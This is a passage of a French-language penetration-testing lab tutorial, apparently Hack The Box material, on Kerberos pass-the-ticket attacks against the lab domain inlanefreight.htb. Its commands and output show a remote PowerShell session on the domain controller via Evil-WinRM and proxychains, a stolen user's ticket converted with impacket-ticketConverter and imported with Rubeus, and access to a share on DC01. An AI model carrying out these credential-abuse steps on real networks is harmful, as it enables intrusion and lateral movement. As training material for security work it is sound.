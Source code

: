 ```

Info: Establishing connection to remote endpoint

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:5985  ...  OK
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```

## Divers
Si nous voulons utiliser un fichier ccache sous Windows ou un fichier kirbi sur une machine Linux, nous pouvons utiliser impacket-ticketConverter pour les convertir. Pour l'utiliser, nous spécifions le fichier que nous voulons convertir et le nom du fichier de sortie. Convertissons le fichier ccache de Julio en kirbi.
```
dsgsec@htb[/htb]$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```

Nous pouvons faire l'opération inverse en sélectionnant d'abord un fichier .kirbi. Utilisons le fichier .kirbi dans Windows.

### mportation d'un ticket converti dans une session Windows avec Rubeus
```
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
C:\htb> klist

Current LogonId is 0:0x31adf02

Cached Tickets: (1)

#0>     Client: julio @ INLANEFREIGHT.HTB
        Server: krbtgt/INLANEFREIGHT.HTB @ INLANEFREIGHT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0xa1c20000 -> reserved forwarded invalid renewable initial 0x20000
        Start Time: 10/10/2022 5:46:02 (local)
        End Time:   10/10/2022 15:46:02 (local)
        Renew Time: 10/11/2022 5:46:02 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

C:\htb>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72
```